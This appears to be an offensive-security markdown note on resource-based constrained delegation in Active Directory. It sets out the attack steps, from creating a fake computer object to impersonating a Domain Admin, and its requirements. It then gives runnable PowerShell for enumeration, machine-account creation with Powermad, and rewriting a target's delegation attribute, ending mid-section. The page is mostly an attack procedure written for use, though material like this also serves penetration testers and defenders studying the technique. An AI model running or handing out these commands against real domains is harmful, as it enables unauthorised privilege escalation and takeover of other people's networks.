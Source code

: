 
### Example steps
- We have code execution on the box `WS02` in the context of `offense\Service1` user;
- User `Service1` has WRITE privilege over a target computer `WS01`;
- User `Service1` creates a new computer object `FAKE01` in Active Directory (no admin required);
- User `Service1` leverages the WRITE privilege on the `WS01` computer object and updates its object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable the newly created computer `FAKE01` to impersonate and authenticate any domain user that can then access the target system `WS01`. In human terms this means that the target computer `WS01` is happy for the computer `FAKE01` to impersonate any domain user and give them any access (even Domain Admin privileges) to `WS01`;
- WS01 trusts FAKE01 due to the modified msDS-AllowedToActOnBehalfOfOtherIdentity;
- We request Kerberos tickets for `FAKE01$` with ability to impersonate `offense\administrator` who is a Domain Admin;
- Profit - we can now access the c$ share of ws01 from the computer `ws02`.

### Requirements
- you must control a machine account or user account with spn
- write `msDS-AllowedToActOnBehalfOfOtherIdentitity` attribute
- must be Windows 2012 Domain Controller or later
- It's possible to gain code execution with elevated privileges on a remote computer if you have WRITE privilege on that computer's AD object.

check this graph from  [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)

![RBCD mindmap rbocZNrR](https://github.com/user-attachments/assets/d90fb055-0081-4a1e-a3f5-14506e886405)


### Enumration 

```shell
# check ms-ds-machineaccountquota
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local

# check DC version
Get-DomainController

# check object must not have the attribute msds-allowedtoactonbehalfofotheridentity 
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

### Attack from Windows


**Creating a Computer Object**
```shell
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
**Resource-based Constrained Delegation**
```shell
# activedirectory PowerShell module
$targetComputer = 'WS01'
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount FAKE01$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked

# powerview
ComputerSid = Get-DomainComputer FAKE01 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
```